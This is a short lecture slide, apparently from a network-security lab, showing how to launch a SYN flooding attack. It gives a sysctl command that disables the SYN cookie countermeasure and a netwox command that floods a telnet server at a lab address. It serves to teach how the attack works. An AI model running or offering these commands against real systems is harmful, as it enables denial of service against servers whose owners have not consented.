

# SYN Flooding Attack – Launch the Attack
Using netwox tool
Turn off the SYN Cookie countermeasure:
$sudo sysctl -w net.ipv4.tcp_syncookies=0
Targeting telnet server
Launch the attack using netwox
$ sudo netwox 76 -i 10.102.20.178 -p 23 -s raw

Result